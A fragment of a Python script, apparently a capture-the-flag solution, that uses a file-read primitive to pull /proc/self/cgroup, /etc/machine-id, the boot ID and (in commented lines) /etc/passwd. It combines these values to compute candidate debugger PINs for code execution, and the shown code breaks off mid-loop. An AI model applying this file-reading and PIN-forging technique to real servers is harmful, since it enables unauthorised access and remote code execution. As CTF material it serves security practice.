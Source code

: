 ```Python
    getCgroup = createTable("/proc/self/cgroup")

    getCgroup = str(readtable(getCgroup).decode().split("/")[2].split(",")[0])

    print(getCgroup)



    getMachineId = createTable("/etc/machine-id")

    getMachineId = str(readtable(getMachineId).decode())

    print(getMachineId)



    getBootId = createTable("/proc/sys/kernel/random/boot_id")

    getBootId = str(readtable(getBootId).decode())

    print(getBootId)



    # etcPasswd = createTable("/etc/passwd")

    # etcPasswd = str(readtable(etcPasswd).decode()).split(",")

    # users = []

    # for i in etcPasswd:

    #     users.append(i.split(":")[0])

    # print(users)



    users = ['ctf']

    for i in users:

        print(i)

        # pin1 = getPin(getmac, getMachineId, username=i)

        # check(pin1)

        #

        # pin2 = getPin(getmac, getCgroup, username=i)

        # check(pin2)



        # pin3 = getPin(getmac, getBootId+getCgroup, username=i)

        # check(pin3)



        pin4 = getPin(getmac, getMachineId+getCgroup, username=i)
```